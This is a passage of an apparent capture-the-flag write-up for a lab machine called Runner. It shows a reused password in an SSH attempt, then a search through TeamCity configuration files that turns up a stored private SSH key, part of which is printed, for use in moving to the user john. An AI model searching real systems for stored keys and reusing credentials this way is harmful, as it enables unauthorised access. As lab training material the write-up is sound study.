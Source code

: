 ```bash
```
```bash
❯ ssh john@runner.htb
john@runner.htb's password: piper123
Permission denied, please try again.
```

For now, there is no other interesting place to reuse this password because I already gained access as the user that runs teamcity, so I will look other things


# Access as john in runner

The teamcity_server folder I saw before is probably to store the data of teamcity.

In /data/teamcity_server/datadir, the most interesting folder is `config`, so I will look files inside it:

```bash
tcuser@647a82f29ca0:/data/teamcity_server/datadir$ find config/ -type f | grep -vE '\.ftl|\.dist$|_logging'
config/auth-config.dtd
config/backup-config.xml
config/roles-config.xml
config/_trash/AllProjects.project1/project-config.xml
config/ntlm-config.properties
config/main-config.xml
config/main-config.dtd
config/roles-config.dtd
config/_auth/auth-preset.dtd
config/_auth/ldap.xml
config/_auth/ldap-ntlm.xml
config/_auth/default.xml
config/_auth/nt-domain.xml
config/auth-config.xml
config/database.properties
config/_notifications/email/email-config.dtd
config/_notifications/email/email-config.xml
config/nodes-config.xml
config/projects/_Root/project-config.xml
config/projects/Asdas/buildTypes/Asdas_Asdss.xml.1
config/projects/Asdas/buildTypes/Asdas_Asdss.xml.2
config/projects/Asdas/buildTypes/Asdas_Asdss.xml
config/projects/Asdas/project-config.xml
config/projects/AllProjects/pluginData/ssh_keys/id_rsa
config/projects/AllProjects/project-config.xml.1
config/projects/AllProjects/project-config.xml
config/internal.properties
config/ldap-mapping.dtd
config/disabled-plugins.xml
```

There is a id_rsa in `config/projects/AllProjects/pluginData/ssh_keys/id_rsa`, testing it with the users I saw before, it works with john:

```bash
❯ /bin/cat teamcity-id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAlk2rRhm7T2dg2z3+Y6ioSOVszvNlA4wRS4ty8qrGMSCpnZyEISPl
htHGpTu0oGI11FTun7HzQj7Ore7YMC+SsMIlS78MGU2ogb0Tp2bOY5RN1/X9MiK/SE4liT
njhPU1FqBIexmXKlgS/jv57WUtc5CsgTUGYkpaX6cT2geiNqHLnB5QD+ZKJWBflF6P9rTt
zkEdcWYKtDp0Phcu1FUVeQJOpb13w/L0GGiya2RkZgrIwXR6l3YCX+mBRFfhRFHLmd/lgy
/R2GQpBWUDB9rUS+mtHpm4c3786g11IPZo+74I7BhOn1Iz2E5KO0tW2jefylY2MrYgOjjq
5fj0Fz3eoj4hxtZyuf0GR8Cq1AkowJyDP02XzIvVZKCMDgVNAMH5B7COTX8CjUzc0vuKV5
iLSi+vRx6vYQpQv4wlh1H4hUlgaVSimoAqizJPUqyAi9oUhHXGY71x5gCUXeULZJMcDYKB
```